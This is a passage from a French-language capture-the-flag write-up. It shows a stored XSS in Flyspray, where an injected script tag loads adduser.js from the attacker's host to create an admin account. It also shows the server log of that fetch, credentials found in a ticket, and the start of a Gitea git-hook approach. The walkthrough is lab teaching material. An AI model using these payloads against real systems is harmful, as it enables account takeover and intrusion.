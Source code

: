 ```html
<div class="comment_avatar"><a class="av_comment" href="http://192.168.56.117/flyspray/index.php?do=user&area=users&id=2" title="<script src="http://192.168.56.1:9999/adduser.js"></script>">
```

J'ai changé ça et aussi choisi de fermer le tag en cours :

```html
"></a><script src="http://192.168.56.1:9999/adduser.js"></script>
```

Cette fois ça n'a pas été long à tomber dans le piège :

```shellsession
$ python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
192.168.56.117 - - [22/Feb/2023 13:32:18] "GET /adduser.js HTTP/1.1" 200 -
```

Grace au code javascript je peux alors me connecter avec les identifiants `hacker` / `12345678` et profiter des privilèges admin, à savoir voir l'ensemble des tickets.

## Capitaine Hook

Il y a en effet un autre ticket avec des identifiants :

> ## FS#2 - self hosted git service
> 
> I have configured gitea for our git needs internally!
> 
> Here are my creds in case anyone wants to check out our project!
> 
> achilles:h2sBr9gryBunKdF9

Ces identifiants ne permettant pas d'accéder au compte via SSH car seule une authentification par clé est permise mais on peut les utiliser pour nous connecter au `Gitea` sur le port 3000.

Il existe un exploit pour `Gitea` mais il semble avoir été publié après que le CTF soit disponible, ce n'est donc probablement pas la solution officielle : [Gitea 1.12.5 - Remote Code Execution (Authenticated) - Multiple webapps Exploit](https://www.exploit-db.com/exploits/49571)

Un peu comme sur les CTF comportant du Jenkins (voir [Solution du CTF Jeeves de HackTheBox](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Jeeves%20de%20HackTheBox.md)) où il fallait créer une étape de build sur un projet, ici nous allons créer un hook qui exécutera des commandes lorsque du code est poussé sur un projet Git.

Au lieu d'utiliser l'exploit j'ai effectué les commandes moi même. D'abord il faut créer le répo via l'interface web de `Gitea` puis créer le répo local, définir le répo distant puis pousser :

```shellsession
$ mkdir yolo
$ cd yolo
$ touch README.md
$ git init
astuce: Utilisation de 'master' comme nom de la branche initiale. Le nom de la branche
astuce: par défaut peut changer. Pour configurer le nom de la branche initiale
astuce: pour tous les nouveaux dépôts, et supprimer cet avertissement, lancez :
astuce: 
astuce:         git config --global init.defaultBranch <nom>
astuce: 
astuce: Les noms les plus utilisés à la place de 'master' sont 'main', 'trunk' et
astuce: 'development'. La branche nouvellement créée peut être rénommée avec :
astuce: 
astuce:         git branch -m <nom>
Dépôt Git vide initialisé dans /tmp/192.168.56.116/yolo/.git/
$ git add README.md
$ git commit -m "first commit"
[master (commit racine) 6576b2c] first commit
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 README.md
```